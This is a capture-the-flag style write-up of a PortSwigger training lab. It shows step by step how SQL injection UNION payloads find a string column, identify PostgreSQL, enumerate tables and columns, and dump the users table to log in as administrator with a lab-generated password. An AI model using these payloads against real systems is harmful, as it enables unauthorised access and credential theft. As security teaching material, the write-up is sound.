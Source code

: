 # SQL injection UNION attack, retrieving multiple values in a single column

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column), you'll learn: SQL injection UNION attack, retrieving multiple values in a single column! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204060909.png)

**In the previous labs, we found an SQL injection vulnerability in the product category filter.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061104.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061117.png)

And we found that this table has 2 columns.

Now, to exploit this vulnerbility even further, **we need find which column accept string data type via `UNION` clause:**

```sql
' UNION SELECT 'a',NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061310.png)

We can see that the first column doesn't accept string data type.

**How about the second column?**
```sql
' UNION SELECT NULL,'a'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061405.png)

**It accept string data type!**

Then, we can enumerate this database much deeper!

**Let's find which DBMS(Database Management System) is using:**
```sql
' UNION SELECT NULL,version()-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061652.png)

- DBMS information: PostgreSQL version 12.12

**List all the tables in the current database:**
```sql
' UNION SELECT NULL,table_name FROM information_schema.tables-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061753.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061806.png)

**The `users` table seems interesting!**

**List all the columns in the `users` table:**
```sql
' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061932.png)

- `users` table column names: `password`, `username`

**Let's extract all the data inside the `users` table!**

However, since **we only have 1 column that accept string data type**, we need to do **string concatenation**.

According to [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), we can concatenate string via 2 pipes: `||`.

**Payload:**
```sql
' UNION SELECT NULL,username||':'||password FROM users-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204062235.png)

**We found user `administrator`'s password! Let's login as that user via the `My account` link!**

- Username: administrator
- Password: uin0c06mzov8uvbvfbwk

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204062340.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204062351.png)

We're logged in as `administrator`!

# Conclusion

What we've learned:

1. SQL injection UNION attack, retrieving multiple values in a single column